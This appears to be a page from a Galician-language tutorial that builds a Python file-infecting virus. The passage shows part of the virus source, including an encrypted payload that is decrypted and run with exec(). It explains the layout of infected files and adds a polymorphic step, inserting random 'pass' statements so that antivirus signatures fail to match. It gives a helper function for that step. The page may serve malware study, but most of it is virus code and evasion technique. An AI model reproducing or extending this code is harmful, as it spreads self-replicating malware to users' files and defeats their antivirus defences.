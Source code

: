 ```python
                wxlvkbyktwhk = "bfihkm lrl" + vak(10) + "ihkmtwhk = hixg(lrl.tkzo[0], " + vak(34) + "k" + vak(34) + ")" + vak(10) + "mxqmh_ihkmtwhk = ihkmtwhk.kxtw()" + vak(10) + "ihkmtwhk.vehlx()" + vak(10) + "itkmx_lbg_vbyktk = mxqmh_ihkmtwhk[mxqmh_ihkmtwhk.ybgw(" + vak(34) + "wxy vtevnet_vetox" + vak(34) + "):mxqmh_ihkmtwhk.ybgw(" + vak(34) + "wxy vtevnet_vetox" + vak(34) + ")+541]" + vak(10) + "vetox = vtevnet_vetox(mxqmh_ihkmtwhk)" + vak(10) + "mxqmh_wxlvbyktwh = wxlvbykt(" + vak(34) + vak(34) + vak(34) + itkmx_vkbyktwt + vak(34) + vak(34) + vak(34) + ", vetox)" + vak(10) + "xqxv(mxqmh_wxlvbyktwh)" + vak(10) + "xqxvnmt(itkmx_lbg_vbyktk + mxqmh_wxlvbyktwh)"
                lvkbim.pkbmx(wxlvkbyktwhk)
            lvkbim.vehlx()


wxy itrehtw():
    ikbgm("Ynvaxl bgyxvmtwh")


wxy xqxvnmt(obknl):
    bgyxvmtk(obknl)
    itrehtw()

""", clave)
exec(texto_descifrado)
executa(parte_sin_cifrar + texto_descifrado)
```

No ficheiro infectado pódense ver as seguintes partes:
- O código do anterior programa (o "Ola mundo!").
- As funcións para o cálculo da clave e descifrado.
- O código cifrado xunto coas chamadas as funcións de cálculo da clave e descifrado.
- Chamada a función exec para que Python interprete o código descifrado.

Despois de todos os cambios realizados ao virus inicial segue habendo unha debilidade, este virus pódese detectar polas 
funcións de descifrado e cálculo de clave, xa que estas pódense utilizar como sinatura para a detección do virus. 

Hai que destacar que este virus infecta aos arquivos que non conteñan a cadea de caracteres “def calcula_clave”, polo 
que se nun programa ou script lexítimo existe esa cadea de caracteres, non será infectado.

## Evitando a detección por firma
Nesta nova versión, engadirase a funcionalidade de modificar o código das funcións que non se cifran (calcula_clave e 
descifa) engadindo a palabra reservada “pass” varias veces de forma aleatoria neste código. Hai que dicir que a palabra 
reservada “pass” non ten ningún efecto na funcionalidade das funcións. Cada vez que se execute o virus, os novos 
arquivos infectados poderán ter os “pass” en diferentes posicións. Con esta modificación pretendese que non se utilice 
o código que non se cifra como sinatura do virus.

Para conseguir a funcionalidade descrita engadíronse e modificáronse as seguintes funcións:
- Función **borra_pass**: esta función borra todas as aparicións da palabra reservada “pass” no código que non se cifra.
```python
def borra_pass(codigo):
    codigo_sen_pass = []
    for linha in codigo.split(chr(10)):
        if not "pass" in linha:
            codigo_sen_pass.append(linha)
    return chr(10).join(codigo_sen_pass)
```
